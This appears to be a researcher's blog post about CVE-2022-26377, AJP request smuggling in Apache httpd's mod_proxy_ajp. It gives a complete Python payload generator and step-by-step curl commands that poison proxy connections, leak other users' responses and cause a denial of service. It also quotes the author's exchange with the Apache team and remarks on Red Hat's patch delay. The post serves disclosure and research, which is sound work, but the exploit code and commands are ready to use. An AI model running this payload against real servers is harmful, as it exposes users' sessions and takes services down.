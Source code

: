 ```yaml
---
layout: post
title:  "CVE-2022-26377 Apache httpd AJP request smuggling - a proof of concept payload generator"
datetime: 2023-01-20 00:05:00 MET
last_modified_at: 2023-01-20 00:05:00 MET
author: 'psytester'
---
```


While searching for a HTTP request smuggling possibility in my [security exploration of Entersekt Transakt secure gateway](https://psytester.github.io/Entersekt_transakt_security_anylysis/), I saw the [CVE-2022-26377](https://www.cve.org/CVERecord?id=CVE-2022-26377) Apache httpd mod_proxy_ajp request smuggling.<br>
Hmm, I have such project setup...<br>
Searching for the reporter I found his blog. Thanks to DeepL or Google translate, the chinese page is readable for the rest of the world.<br>
I created a payload generator based on allyshka ‘s script for [CVE-2020-1938 Ghostcat](https://gist.github.com/allyshka) - Apache Tomcat AJP vulnerability and BINGO it’s working.<br>
In our special case I could create a Denial of Service on-top.

I wrote Apache httpd team:
```
In my project setup I was able to do a Denial of Service follow-up issue.
If one send a lot of POST requests with request smuggling that are sure
to fail due to a missing or wrong ajp secret, because my Tomcat has set a secret,
one is poisoning the Tomcat connection handler with http 403 responses.

I get random responses in my curl post requests, that look like a context
of the actual real connections of real users and vice versa the real browser user sessions
get my HTTP 403 or some code snippets or incomplete web pages.
Due to the nature of our application an user is kicked out, if a http error code is received.
I successfully did a DoS at our application.

The connections have not healed themselves.
At the end of my tests I had to restart httpd and tomcat to get it working again in normal operation mode.

1. Generate the payload:
     python3 CVE-2022-26377_generate_ajp_payload.py --target_req_uri /some_get_uri
--secret ajp_wrong_secret_not_configured_in_server_xml | xxd -r -p >
payload.data
or just without any secret:
     python3 CVE-2022-26377_generate_ajp_payload.py --target_req_uri /some_get_uri |
xxd -r -p > payload.data

2. in browser use the website as usual as normal user

3. Do a lot of this curl calls to poison the connections:
curl --insecure -i https://vulnerable-tls-endpoint/post_uri -H
'Transfer-Encoding: chunked, chunked' --data-binary @payload.data

4. curl and browser get stuck
```
Apache httpd project response was:
```
Hi all, thanks for looping us in, but I don't see anything unexpected here.

Without the fix for a known request smuggling vulnerability, requests
can be smuggled through mod_proxy_ajp.  The responses to the smuggled
requests will be available to connections sitting pooled connections
on the proxy server.

If there is some specific unreported shortcoming in httpd that an
attacker can influence, please share a more complete description that
doesn't depend on prior vulnerabilities being unresolved.
```

Current Tomcat versions do not longer allow any AJP attribute, thus I used a harmless one and put some dummy value as filler.<br>
My payload generator for CVE-2022-26377
```
# Inspired by ajp-packet.py script @ https://gist.github.com/allyshka 
# for CVE-2020-1938 Ghostcat - Apache Tomcat AJP File Read/Inclusion Vulnerability
# -->
# The payload for CVE-2022-26377 HTTP Request Smuggling in ajp_proxy of Apache webserver
# can be build with this modified script

import struct
import argparse
from urllib.parse import urlparse

def pack_string(s):
    if s is None:
        return struct.pack(">h", -1)
    l = len(s)
    return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)


parser = argparse.ArgumentParser(description='Payload generator for CVE-2022-26377 HTTP Request Smuggling in ajp_proxy of Apache webserver, based on allyshka script for CVE-2020-1938 Ghostcat')
parser.add_argument('--target_req_uri', help='spoof internal uri for HTTP GET request smuggeling', required=False, default="/index.html")
parser.add_argument('--target_port', help='internal port for HTTP GET request smuggeling', required=False, default=8080)
parser.add_argument('--remote_addr', help='spoof remote address for HTTP GET request smuggeling', required=False, default="127.0.0.1")
parser.add_argument('--secret', help='ajp secret for HTTP GET request smuggeling', required=False)

arg_target_req_uri = parser.parse_args().target_req_uri
arg_target_port = int(parser.parse_args().target_port)
arg_remote_addr = parser.parse_args().remote_addr
arg_secret = parser.parse_args().secret

# payload for CVE-2022-26377 Request Smuggling does not need complete AJP structure !
# complete AJP structure
#magic = 0x1234						# GET - but not used here
#prefix_code = struct.pack("b", 2) 	# forward request - but not used here
#method = struct.pack("b", 2) 		# GET - but not used here
protocol = pack_string("HTTP/1.1")
req_uri = pack_string(arg_target_req_uri)			# change it to tomcat internal url
remote_addr = pack_string(arg_remote_addr)			# change it
remote_host = pack_string(None)
server_name = pack_string(None)
server_port = struct.pack(">h", arg_target_port)	# change it
is_ssl = struct.pack("?", False)
num_headers = struct.pack(">h", 0)
# The final payload need to be exactly 514 bytes
# thus we us an attribute and put some dummy value as filler
# we start at filler with 1 byte and recalculate depending on changed values above
attributes = {'javax.servlet.request.cipher_suite': 'a' * 1}
end = struct.pack("B", 0xff)

# not used: data = prefix_code
# not used: data = method
data = protocol
data += req_uri
data += remote_addr
data += remote_host
data += server_name
data += server_port
data += is_ssl
data += num_headers
# generate attrs
if arg_secret is not None:
	attr_code_secret = struct.pack("b", 0x0c) # SECRET
	data += attr_code_secret
	data += pack_string(arg_secret)

attr_code = struct.pack("b", 0x0a) # SC_A_REQ_ATTRIBUTE
for n, v in attributes.items():
    data += attr_code
    data += pack_string(n)
    data += pack_string(v)


data += end # packet terminator byte 0xff

# depending on req_uri, remote_addr, etc. the attribute filler is adjusted
# print(f"payload length: {len(data)}")
current_len = len(data)
# calculate the final filler length
final_len = 514 - current_len + 1


attributes_final = {'javax.servlet.request.cipher_suite': 'a' * final_len}

data = protocol
data += req_uri
data += remote_addr
data += remote_host
data += server_name
data += server_port
data += is_ssl
data += num_headers
# generate attrs
if arg_secret is not None:
	attr_code_secret = struct.pack("b", 0x0c) # SECRET
	data += attr_code_secret
	data += pack_string(arg_secret)

attr_code = struct.pack("b", 0x0a) # SC_A_REQ_ATTRIBUTE
for n, v in attributes_final.items():
    data += attr_code
    data += pack_string(n)
    data += pack_string(v)

data += end # packet terminator byte 0xff

# depending on req_uri, remote_addr, etc. the attribute filler is adjusted
# print(f"payload length: {len(data)}")
current_len = len(data)


# not used: header = struct.pack(">hH", magic, len(data))
# not used: ajp_request = header + data

# For CVE-2022-26377 AJP Request Smuggeling we do not need the header, only some data
ajp_request = data

# The final payload need to be exactly 514 bytes
print(ajp_request.hex())
```

It was end of October, beginning November 2022, a fresh RHEL 8.6 update had been performed. It was not clear to me if backporting & cherry picking was already done by Redhat.<br>
It just still took for Redhat until 08 November, 5 months since the disclosure.<br>
[https://access.redhat.com/security/cve/CVE-2022-26377](https://access.redhat.com/security/cve/CVE-2022-26377)

Today 19. Januar 2023. Is the patching problem repeating itself?<br>
Newest [CVE-2022-37436](https://www.cve.org/CVERecord?id=CVE-2022-37436) is out since 17. Januar and we will see when Redhat will release the fix @ [https://access.redhat.com/security/cve/CVE-2022-37436](https://access.redhat.com/security/cve/CVE-2022-37436)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2023 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
